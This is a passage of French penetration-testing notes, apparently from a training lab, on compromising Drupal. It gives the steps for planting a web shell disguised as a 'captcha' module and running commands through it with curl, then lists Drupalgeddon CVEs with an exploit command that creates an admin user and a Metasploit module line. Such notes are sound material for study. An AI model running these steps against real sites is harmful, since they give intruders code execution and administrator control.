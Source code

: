 3. Créer un fichier .htaccess

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

4. Ajouter les 2 fichiers à une archive

```shell
mv bb58021f870b5f85c6c24120540de43f.php .htaccess captcha
```

```shell
tar cvf captcha.tar.gz captcha/
```

5. Depuis l'administration de drupal -> Manage -> Extend -> + Install new module
6. Browse et récupérer l'archive créée
7. Install
8. RCE

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/bb58021f870b5f85c6c24120540de43f.php?bb58021f870b5f85c6c24120540de43f=id
```

## CVEs

Rechercher CVEs

- [[#Drupalgeddon ([CVE-2014-3704](https //www.drupal.org/SA-CORE-2014-005)) (7.0 à 7.31)|Drupalgeddon]]
- [[#Drupalgeddon2 ([CVE-2018-7600](https //www.drupal.org/sa-core-2018-002)) (7.58 à 8.5.1)|Drupalgeddon2]]
- [[#Drupalgeddon3 ([CVE-2018-7602](https //cvedetails.com/cve/CVE-2018-7602/)) (7.x / 8.x)|Drupalgeddon3]]

### Drupalgeddon ([CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005)) (7.0 à 7.31)

Injection SQL

https://www.exploit-db.com/exploits/34992

ajout d'un user admin

```shell
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

#### Metasploit

https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/

```
use exploit/multi/http/drupal_drupageddon
```

